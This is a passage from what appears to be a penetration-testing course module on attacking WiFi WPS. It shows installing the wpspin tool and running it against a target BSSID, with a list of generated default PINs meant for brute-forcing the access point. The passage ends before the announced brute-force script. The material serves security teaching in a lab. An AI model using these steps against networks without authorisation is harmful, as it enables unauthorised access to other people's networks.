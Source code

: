 
<h1>Using Multiple Pre-defined PINs</h1>
<hr/>
<p>While it is possible to bruteforce the WPS PIN using <code>Reaver</code>, we can also use a custom wordlist of potential PINs. In this section, we will explore how to generate possible PINs for a WiFi network using <code>wpspin</code> and then create a custom bash script to bruteforce the access point with these PINs.</p>
<hr/>
<h3>Using Python WPSPin to Generate Default PINs</h3>
<p>The <a href="https://github.com/drygdryg/wpspin">WPSPin</a> tool is a powerful tool that includes many different PIN generation algorithms. This tool allows us to once again provide the BSSID of our target network and receive a list of possible default PINs.</p>
<p>To begin, we can install the tool from the source.</p>
<pre><code class="language-shell-session">[!bash!]$ git clone https://github.com/drygdryg/wpspin.git

Cloning into 'wpspin'...
remote: Enumerating objects: 44, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 44 (delta 0), reused 2 (delta 0), pack-reused 40
Receiving objects: 100% (44/44), 21.46 KiB | 499.00 KiB/s, done.
Resolving deltas: 100% (10/10), done.
</code></pre>
<p>Then, we navigate into the tool's cloned directory and run the setup script to install WPSPin.</p>
<pre><code class="language-shell-session">[!bash!]$ cd wpspin
[!bash!]$ sudo python setup.py install
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Note: <code>WPSPin</code> is already installed in the lab.</p>
</div>
</div>
<p>Once WPSPin is installed, we can employ the following command to generate possible default PINs. We specify our <code>BSSID</code> and <code>-A</code> to generate any and all possible PINs.</p>
<pre><code class="language-shell-session">[!bash!]$ wpspin -A 60:38:E0:A2:3D:2A

Found 49 PIN(s)
PIN        Name
73834410   44-bit PIN
94229882   Static PIN — H108L
73834410   40-bit PIN
06490959   Reverse bits 32-bit
11184812   24-bit PIN
63311501   Reverse nibble 32-bit
11184812   28-bit PIN
36499373   48-bit PIN
63313604   Reverse byte 32-bit
99956042   Static PIN — Onlime
95661469   Static PIN — Realtek 1
89478486   Reverse bits 24-bit
11184812   Reverse nibble 24-bit
           Empty PIN
11184812   Reverse byte 24-bit
95755212   Static PIN — CBN ONO
20854836   Static PIN — Upvel
20144326   Airocon Realtek
33946153   D-Link PIN +1
13142452   ASUS PIN
74163052   OUI ^ NIC
51875350   OUI − NIC
43977680   Static PIN — UR-814AC
56587340   Inv NIC to PIN
95719115   Static PIN — Realtek 2